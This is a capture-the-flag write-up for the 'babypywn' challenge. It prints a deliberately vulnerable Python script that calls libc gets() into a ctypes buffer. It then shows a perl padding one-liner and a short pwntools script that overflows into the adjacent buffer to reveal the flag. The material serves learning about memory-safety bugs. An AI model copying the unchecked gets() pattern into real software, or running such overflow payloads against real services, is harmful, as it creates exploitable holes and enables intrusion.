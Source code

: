 # babypywn

For this challenge we are given the source code for a python file called babypwn.py running on the remote server.

```
#!/usr/bin/env python3

from ctypes import CDLL, c_buffer
libc = CDLL('/lib/x86_64-linux-gnu/libc.so.6')
buf1 = c_buffer(512)
buf2 = c_buffer(512)
libc.gets(buf1)
if b'DUCTF' in bytes(buf2):
    print(open('./flag.txt', 'r').read())
```

From a first glance this looked something to do with buffer overflow so I ran it locally and used the addressof() and saw the buffers are 512 bytes apart indicating they are alligned one after another.
![gets man page](memory_addresses.PNG)
Looking at the Memory addresses of the buffers I thought they would grow lower as is on the stack.
But after some research I learned that python objects are placed on the heap hence the addressing grows upwards. This means we could overflow from the memory of buf1 into buf2.  


  ![gets man page](https://courses.engr.illinois.edu/cs225/fa2022/assets/notes/stack_heap_memory/memory_layout.png)

Lets have a look at that line libc.gets(buf1), some googling reveals what it is and provides a description. 
![gets man page](gets.PNG)
The last line "no check for buffer overrun is performed" is music to our ears.

We can use perl to generate a buffer 512 bytes long "perl -E 'say "a" x 512' appending 'DUCTF' to the end should cause the flag to be outputed.

We can then use pwn tools to send our buffer and get the flag.

```
from pwn import *
c = remote('0.0.0.0', 8080)
c.sendline(b'aaaaaaaaaa...'+ b'DUCTF')
print(c.recvline().decode())
```